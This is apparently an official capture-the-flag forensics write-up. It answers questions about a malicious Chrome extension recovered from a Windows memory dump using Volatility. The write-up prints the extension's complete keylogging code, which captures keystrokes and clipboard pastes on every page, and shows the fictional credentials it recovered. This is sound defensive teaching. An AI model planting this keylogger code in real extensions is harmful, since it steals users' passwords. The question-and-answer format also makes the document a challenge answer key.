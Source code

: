 ![img](assets/banner.png)

<img src='assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Stealth Invasion</font>

03<sup>th</sup> March 2024

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

* An easy forensic challenge, focusing on Chrome Extension analysis. Players will have to examine the memory, recover the Extension's source code and examine its log files.

## Description

* Selene's normally secure laptop recently fell victim to a covert attack. Unbeknownst to her, a malicious Chrome extension was stealthily installed, masquerading as a useful productivity tool. Alarmed by unusual network activity, Selene is now racing against time to trace the intrusion, remove the malicious software, and bolster her digital defenses before more damage is done.

## Skills Required

* N/A

## Skills Learned

* Volatility Basics
* Chrome Extensions Basics

# Solution

### Q1: What is the PID of the Original (First) Google Chrome process
### A1: 4080

We can use the `windows.list` Volatility plugin to enumerate the processes, along with the `--filters` arguments to clean up the output a bit:

```bash
$> vol -f memdump.elf --filters "ImageFileName,chrome.exe" windows.pslist

Volatility 3 Framework 2.23.0
Progress:  100.00		PDB scanning finished
PID	PPID	ImageFileName	Offset(V)	Threads	Handles	SessionId	Wow64	CreateTime	ExitTime	File output

4080	5296	chrome.exe	0xa708c729e0c0	48	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
2736	4080	chrome.exe	0xa708c74560c0	11	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
5688	4080	chrome.exe	0xa708c6cf4080	18	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
7504	4080	chrome.exe	0xa708c6b19080	24	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
1220	4080	chrome.exe	0xa708c7514080	9	-	1	False	2025-03-13 17:01:04.000000 UTC	N/A	Disabled
4612	4080	chrome.exe	0xa708c7230080	15	-	1	False	2025-03-13 17:01:05.000000 UTC	N/A	Disabled
8036	4080	chrome.exe	0xa708caec6080	13	-	1	False	2025-03-13 17:01:08.000000 UTC	N/A	Disabled
1368	4080	chrome.exe	0xa708c6594080	14	-	1	False	2025-03-13 17:01:11.000000 UTC	N/A	Disabled
```

We can see the original process has a PID of `4080` and every other subsequent process is a child of that.

### Q2: What is the only __Folder__ on the Desktop
### A2: malext

For that we can use the `windows.filescan` plugin, in order to enumerate all the cached files:

```bash
$> vol -f memdump.elf windows.filescan | rg -Fi "desktop\\"
0xa708c7697e20  \Users\Public\Desktop\desktop.inished
0xa708c769d410	\Users\selene\Desktop\Microsoft Edge.lnk
0xa708c76b5790	\Users\selene\Desktop\desktop.ini
0xa708c76d38d0	\Users\Public\Desktop\Google Chrome.lnk
[REDACTED]
0xa708c8d9ec30	\Users\selene\Desktop\malext\background.js
0xa708c8d9fef0	\Users\selene\Desktop\malext\manifest.json
0xa708c8da14d0	\Users\selene\Desktop\malext\rules.json
0xa708c8da1e30	\Users\selene\Desktop\malext\content-script.js
0xa708ca379980	\Users\selene\Desktop\malext\_metadata\generated_indexed_rulesets\_ruleset1
```

We can find a folder called `malext` and inside it contains the malicious Chrome Extension

### Q3: What is the Extention's ID (ex: hlkenndednhfkekhgcdicdfddnkalmdm)
### A3: nnjofihdjilebhiiemfmdlpbdkbjcpae

ow this is a little tricky, because the extension is not downloaded through the Web Store, it does not reside in the normal `User Data/Default/Extensions` directory. Let's examine the the `background.js` file. In order to extract it, we can use `windows.dumpfiles` with the argument `--virtaddr` and specify the adress of the cached file.

```js
function addLog(s) {
    if (s.length != 1 && s !== "Enter" && !s.startsWith("PASTE"))  {
        s = `|${s}|`;
    } else if (s === "Enter" || s.startsWith("PASTE")) {
        s = s + "\r\n";
    }
    chrome.storage.local.get(["log"]).then((data) => {
        if (!data.log) {
            data.log = "";
        }
        data.log += s;
        chrome.storage.local.set({ 'log': data.log });
    });
}

chrome.runtime.onConnect.addListener((port) => {
    console.assert(port.name === "conn");
    console.log("v1.2.1");

    port.onMessage.addListener( ({ type, data }) => {
        if (type === 'key') {
            addLog(data);
        } else if (type == 'paste') {
            addLog('PASTE:' + data);
        }
    });
});

chrome.runtime.onMessage.addListener(
    function(request, sender, sendResponse) {
        if (request.check === "replace_html" && chrome.storage.local.get("replace_html")) {
            sendResponse({ url: chrome.storage.local.get('replace_html_url')});
        }
    }
);
```

When the script is loaded, it adds a listener and connects to a port, if the port name is `conn` then it goes on to establish another listener on that port for messages. On message, is parses the message and depending on what type it is, it calls `addLog()` to write the key(s). Before checking out the `addLog()` function, let's take a quick look at `content-script.js`:

```js
var conn = chrome.runtime.connect({ name: "conn" });
chrome.runtime.sendMessage('update');

(async () => {
    const response = await chrome.runtime.sendMessage({ check: "replace_html" });
    console.log(response)
})();

chrome.runtime.sendMessage('replace_html', (response) => {
    conn.postMessage({ "type": "check", "data": "replace_html" });
});

document.addEventListener("keydown", (event) => {
    const key = event.key;
    conn.postMessage({ "type": "key", "data": key });
    return true;
});


document.addEventListener("paste", (event) => {
    let paste = event.clipboardData.getData("text/plain");
    conn.postMessage({ "type": "paste", "data": paste });
    return true;
});⏎
```

This script is injected into every webpage the victim browses to and is reponsible for collecting the keystrokes and clipboard data, and then sending them over the channel to the background worker.

Back to the `addLog()` function, there are two calls to the Storage API, one to get the current data in the `log` key and one to set it. We can use this information to find where the local storage for __Extensions__ is! After some searching we find this [Stack Overflow Answer](https://superuser.com/a/944003) which suggests that the local storage for extensions is under `User Data\Default\Local Extension Settings\__extensionID__`.

So let's check it out:

```bash
$> vol -f memdump.elf windows.filescan | rg -Fi "\\Default\\Local Extension Settings\\"

0xa708c8830c80  \Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\LOG
0xa708c8dd5be0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\MANIFEST-000001
0xa708c8dda230	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\CURRENTdbtmp
0xa708c8f2b500	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae
0xa708c8f2d760	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae
0xa708cab9a2c0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\LOG
0xa708caba14d0	\Users\selene\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nnjofihdjilebhiiemfmdlpbdkbjcpae\000003.log
```

### Q4: After examining the malicious extention's code, what is the log filename in which the data is stored
### A4: 000003.log

From the above question, we can examine all the files in the directory but only one would contain important data

### Q5: What is the URL the user navigated to
### A5: drive.google.com

After examining the strings of the file, we can see that each line differs by one character, so the last line is the only line we need to actally look at:

`"drive.google.comEnter\r\nselene|Shift|@rangers.eldoria.comEnter\r\nclip-mummify-proofsEnter\r\n"`

We are only interested in the text between the quotes, and we know that if the `Enter` key is pressed the text will have an additional suffix of `\r\n` so we can split at that, and also remove the suffix:

`"drive.google.com selene@rangers.eldoria.com clip-mummify-proofs"`

We can now find 3 distinct parts, what seems to be a URL, an email and what seems to be a password.

### Q6: What is the password of `selene@rangers.eldoria.com`
### A6: clip-mummify-proofs

